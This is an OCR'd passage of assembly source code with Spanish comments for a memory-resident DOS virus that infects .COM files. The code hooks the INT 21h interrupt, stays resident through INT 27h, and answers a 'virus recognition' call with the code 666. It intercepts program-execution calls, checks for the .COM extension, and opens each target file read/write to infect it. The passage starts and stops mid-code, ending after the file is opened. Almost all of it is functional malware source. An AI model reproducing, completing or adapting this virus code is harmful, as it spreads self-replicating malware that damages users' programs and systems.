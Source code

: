                     rep movsb 

                    mov ax, 100h  
                    jmp ax                                  ; saltar a CS:0100 y ejecutar huésped 

 infect_int21h:     mov ah, 35h                             ; | AH = 35h  
                    mov al, 21h                             ; | AL = número de interrupción, 21h  
                    int 21h                                 ; |_DOS API - Obtener vector en ES:BX

                    mov [bp + vector_int21], bx             ; guardar vector original de INT 21h  
                    mov [bp + vector_int21 + 2], es

                    mov ah, 25h                             ; | AH = 25h  
                    mov al, 21h                             ; | AL = número de interrupción, 21h  
                    lea dx, [bp + handler_int21h]           ; | DS:DX -> dirección del nuevo handler: handler_int21h  
                    int 21h                                 ; |_DOS API - Cambiar vector

                                                            ; | CS = segmento de PSP  
                    lea dx, [bp + eof]                      ; | DX = Tamaño de porción residente (bytes)  
                    int 27h                                 ; |_DOS API - Termina el programa y lo deja en memoria 

handler_int21h:     cmp ax, 0ABCDh                          ; llamada de reconocimiento del virus:  
                    je service_ABCD                         ; responder y retornar  
                    cmp ax, 4B00h                           ; llamada para ejecutar archivo:  
                    je infect_file                          ; infectar y delegar  
                    jmp handler_old                         ; en otro caso, delegar al handler original de INT 21h 

  service_ABCD:     mov ax, 029Ah                           ; código de respuesta: 666 (29Ah)  
                    iret                                    ; retornar de la interrupción

   infect_file:     call d_offset2                          ; calcular delta offset  
     d_offset2:     pop bp  
                    sub bp, offset d_offset2

                    pushf                                   ; guardar estado CPU  
                    push ax                                 ; guardar registros que serán utilizados  
                    push bx  
                    push cx  
                    push dx  
                    push si  
                    push ds  
                                                            ; por la llamada AX=4B00h, DS:DX apunta al nombre del archivo  
                    mov si, dx                              ; verificar que sea extensión ".COM"  
      loop_str:     lodsb  
                    or al, al  
                    jz check_fail  
                    cmp al, '.';  
                    jne loop_str  
                    lodsb  
                    cmp al, 'C'  
                    jne check_fail  
                    lodsb  
                    cmp al, 'O' 
                    jne check_fail  
                    lodsb  
                    cmp al, 'M'
                    je check_ok

   check_fail:      jmp close_file

     check_ok:      mov ah, 3Dh                             ; | AH = 3Dh  
                    mov al, 2                               ; | AL = 2, lectura y escritura  
                    int 21h                                 ; |_DOS API - Abrir archivo existente 

                    jc exit                                 ; si no se puede abrir archivo, restaurar y delegar  
                    xchg ax, bx                             ; handle de archivo en BX

                    push cs  
                    pop ds                                  ; MOV DS, CS
